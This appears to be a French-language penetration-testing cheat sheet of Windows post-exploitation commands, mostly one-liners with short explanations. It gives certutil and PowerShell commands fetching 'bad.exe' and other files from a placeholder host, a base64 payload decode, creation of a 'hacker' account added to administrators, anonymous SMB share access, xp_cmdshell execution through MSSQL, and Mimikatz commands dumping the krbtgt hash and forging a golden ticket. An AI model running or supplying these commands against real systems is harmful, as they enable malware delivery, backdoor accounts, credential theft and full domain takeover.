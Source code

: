 <h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`net account` information sur la politique de mot de passe

## Samba

#### smbclient
Exemple de share connus: IPC$, 
Connexion en tant qu'utilisateur Guest

```
smbclient -U guest% \\\\host\\share
```

Connexion en tant qu'anonyme

```
smbclient -U "" -N \\\\host\\share
```

Énumération de share

```
nmap -v --script smb-enum-shares -p U:137,T:139 host
```

## MSSQL

#### sqsh


```
sqsh -S 1.2.3.4 -u user
EXEC master..xp_cmdshell 'whoami'
go
```

<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session
